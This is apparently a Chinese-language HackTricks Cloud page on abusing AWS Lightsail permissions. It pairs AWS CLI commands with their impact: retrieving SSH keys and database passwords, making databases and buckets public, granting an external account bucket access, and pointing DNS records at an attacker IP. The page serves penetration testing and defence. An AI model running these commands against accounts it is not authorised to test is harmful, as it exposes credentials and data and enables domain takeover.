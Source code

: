 # AWS - Lightsail提权

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## Lightsail

有关Lightsail的更多信息，请查看：

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
需要注意的是，Lightsail **不使用属于用户的IAM角色**，而是使用AWS托管账户的IAM角色，因此无法滥用此服务进行提权。但是，**敏感数据**，如代码、API密钥和数据库信息，可能会在此服务中找到。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

此权限将允许您获取用于访问实例的SSH密钥：
```
aws lightsail download-default-key-pair
```
**潜在影响:** 查找实例内的敏感信息。

### `lightsail:GetInstanceAccessDetails`

此权限将允许您生成 SSH 密钥以访问实例：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在影响：** 查找实例内的敏感信息。

### `lightsail:CreateBucketAccessKey`

此权限将允许您获取访问存储桶的密钥：
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在影响：** 查找存储桶中的敏感信息。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

此权限将允许您获取访问数据库的凭据：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在影响:** 查找数据库中的敏感信息。

### `lightsail:UpdateRelationalDatabase`

此权限将允许您更改访问数据库的密码：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

如果数据库不是公开的，您也可以使用以下权限将其设为公开：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在影响:** 在数据库中发现敏感信息。

### `lightsail:OpenInstancePublicPorts`

此权限允许向互联网开放端口
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在影响：** 访问敏感端口。

### `lightsail:PutInstancePublicPorts`

此权限允许向互联网开放端口。请注意，该调用将关闭未在其中指定的任何已打开端口。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在影响:** 访问敏感端口。

### `lightsail:SetResourceAccessForBucket`

此权限允许为实例提供对存储桶的访问权限，无需任何额外凭据

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在影响:** 可能会获得对包含敏感信息的存储桶的新访问权限。

### `lightsail:UpdateBucket`

拥有此权限的攻击者可以授予自己的AWS账户对存储桶的读取访问权限，甚至可以将存储桶公开给所有人：
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在影响:** 可能获得对包含敏感信息的存储桶的新访问权限。

### `lightsail:UpdateContainerService`

使用这些权限，攻击者可以从容器服务中授予对私有 ECR 的访问权限。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在影响:** 从私有 ECR 获取敏感信息

### `lightsail:CreateDomainEntry`

拥有此权限的攻击者可以创建子域并将其指向自己的 IP 地址（子域接管），或者制作一个允许他欺骗该域的 SPF 记录，甚至将主域设置为自己的 IP 地址。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响:** 接管一个域

### `lightsail:UpdateDomainEntry`

拥有这个权限的攻击者可以创建子域并将其指向自己的IP地址（子域接管），或者制作一个允许他伪造该域电子邮件的SPF记录，甚至将主域设置为自己的IP地址。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在影响:** 接管一个域

{% hint style="success" %}
学习并实践AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
